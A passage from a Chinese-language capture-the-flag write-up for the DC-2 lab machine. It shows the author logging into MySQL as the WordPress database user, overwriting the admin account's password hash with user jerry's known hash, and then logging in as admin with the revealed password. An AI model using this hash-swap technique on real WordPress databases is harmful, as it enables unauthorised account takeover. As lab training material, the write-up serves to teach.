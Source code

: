 连接看看
`mysql -h 127.0.0.1 -u wpadmin -p`

![img](DC-2/images/image-4.png)

又能修改密码登陆?
虽说找不到hash的计算方法 但我们已知jerry的密码hash 改为一样即可
```
mysql> update wordpressdb.wp_users set user_pass="$P$BRCcbpudGlBukTwA7kJsb.rafAL4il." where ID=1
    -> ;
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> 

```

试着登陆一下
admin adipiscing
![img](DC-2/images/image-5.png)
